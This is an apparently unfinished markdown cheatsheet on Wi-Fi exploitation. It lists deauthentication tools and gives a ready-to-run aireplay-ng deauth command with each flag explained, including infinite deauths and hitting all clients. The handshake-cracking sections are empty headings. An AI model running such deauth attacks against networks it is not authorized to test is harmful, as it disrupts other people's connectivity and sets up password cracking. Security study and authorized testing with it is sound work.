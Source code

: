 ```yaml
---
title: WIFI Exploitation
description: WIFI exploitation cheatsheet.
---
```


# TODO

## DeAuth

**Tools :**

- aircrack-ng (suite)
- MDK3
- bettercap
- Scapy
- ...

```bash
aireplay-ng -0 1 -a xx:xx:xx:xx:xx:xx -c yy:yy:yy:yy:yy:yy wlan0
```

1.  `-0` arms deauthentication attack mode
2.  `1` is the number of deauths to send; use 0 for infinite deauths
3.  `-a xx:xx:xx:xx:xx:xx` is the AP (access point) MAC (Media Access Control) address
4.  `-c yy:yy:yy:yy:yy:yy` is the target client MAC address; omit to deauthenticate all clients on AP
5.  `wlan0` is the NIC (Network Interface Card)

### Cracking Handshakes

#### John

#### Hashcat

### aircrack-ng
